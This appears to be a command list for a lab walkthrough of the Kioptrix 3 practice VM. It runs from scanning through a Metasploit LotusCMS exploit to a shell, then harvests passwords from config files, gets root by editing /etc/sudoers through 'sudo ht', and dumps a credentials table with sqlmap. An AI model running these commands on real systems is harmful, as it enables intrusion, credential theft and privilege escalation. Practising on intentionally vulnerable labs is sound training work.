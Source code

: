 Commands:

netdiscover -i eth1

nmap -p- -A (Kioptrix 3 IP)

dirb http://(Kioptrix 3 IP)

use exploit/multi/http/lcms_php_exec
set RHOSTS (Kioptrix 3 IP)
set URI /index.php?system=Admin
run
shell
python -c 'import pty; pty.spawn("/bin/bash")'

cat /etc/passwd

cd /home
cd loneferret
ls -lah
cat CompanyPolicy.README

find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null

cd /home/www/kioptrix3.com/gallery

cat gconfig.php 

http://(KIOPTRIX 3 IP)/phpmyadmin/

su loneferret

ssh loneferret@(KIOPTRIX 3 IP)

export TERM=xterm

sudo ht

Alt=F
/etc/sudoers

sudo /bin/sh

vi /etc/hosts

sqlmap -r sqli --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r sqli --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch


URLs:

https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec
